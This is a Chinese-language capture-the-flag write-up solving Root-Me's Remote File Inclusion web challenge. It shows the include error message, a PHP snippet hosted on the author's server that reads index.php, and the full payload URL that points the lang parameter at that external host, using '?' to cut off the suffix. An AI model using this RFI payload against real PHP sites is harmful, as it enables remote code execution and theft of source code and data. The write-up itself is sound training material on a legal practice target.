


Root-Me [Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
===

提供一個頁面，有語言切換的功能。

## 解題關鍵
1. Fuzz Testing
2. PHP
3. RFI

## 提示訊息
```
Get the PHP source code.
```

## 解題方法
首先有 `Français` 與 `English` 兩種語言，那麼嘗試切換可以看到 URL 的變化 `lang=fr`、`lang=en`，隨後嘗試改為 `MksYi` 後，出現錯誤如下。  

```
Warning: include(MksYi_lang.php): failed to open stream: No such file or directory in /challenge/web-serveur/ch13/index.php on line 18 Warning: include(): Failed opening 'MksYi_lang.php' for inclusion (include_path='.:/usr/share/php') in /challenge/web-serveur/ch13/index.php on line 18
```

可以發現 `include(MksYi_lang.php)`，顯然該部分程式碼為 `include($_GET['input'] . '_lang.php')`，但該題的題目為 RFI，所以是外部引入的概念，可以在外部伺服器先建立一個 `xxx_lang.php` 的檔案，並且讀取本地端的 `index.php` 檔案。  

首先我在自己的 Server 端創建檔名為 `MksYi_lang.php` 的 PHP，程式碼內容如下，功能是檢視 `index.php` 這個檔案。  

```PHP
<?php 
    echo file_get_contents('index.php');
?>
```

原本以為 Rootme 那邊會引入該程式碼，便在本地執行，結果如下...，本地端也有檔名為 `index.php` 的檔案，所以是將內容解析過後，才 `include` 到 Rootme 中，出乎預料之外阿。  

  

解決辦法是 `?`，沒錯就是 `?`，在 RFI 中，引入的 php 會先被遠端 php 解析，為了避免這樣的狀況，是必要遞送純文字的 PHP 程式碼，但由於後輟為 `_lang.php`，是必要截斷才能達成預期的結果。  

可以透過 `?` 來做截斷，首先我先將檔名改為 `MksYi.txt`，檔案的內容與上頭一致，沒有作任何更動，接著 Pyaload 如下。  

```
http://challenge01.root-me.org/web-serveur/ch13/?lang=http://mks.lionfree.net/MksYi.txt?
```

檢視原始碼後，即可發現 Flag，解決該題。  

  

## Reference
https://www.puritys.me/docs-blog/article-181-PHP-Remote-File-Inclusion.html

## 授權聲明
[](https://mks.tw/)
[](https://www.gnu.org/licenses/gpl-3.0)